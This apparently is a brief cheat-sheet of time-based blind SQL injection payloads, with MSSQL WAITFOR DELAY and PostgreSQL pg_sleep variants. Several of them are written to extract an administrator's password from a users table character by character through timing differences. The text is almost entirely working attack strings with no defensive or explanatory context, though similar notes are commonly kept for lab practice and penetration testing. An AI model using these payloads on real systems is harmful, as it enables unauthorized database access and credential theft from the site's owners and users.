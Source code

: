 [[postgresql]]

```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```


Testing one by one character
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```


postgresql
```sql
DmPM58WZKAHfc8BB'%3BSELECT+CASE+WHEN+(username='administrator'+and+length(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+from+users--
```
brut force ony by one char:
```sql
DmPM58WZKAHfc8BB'%3BSELECT+CASE+WHEN+(username='administrator'+and+substring(password,5,1)='a')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+from+users--
```

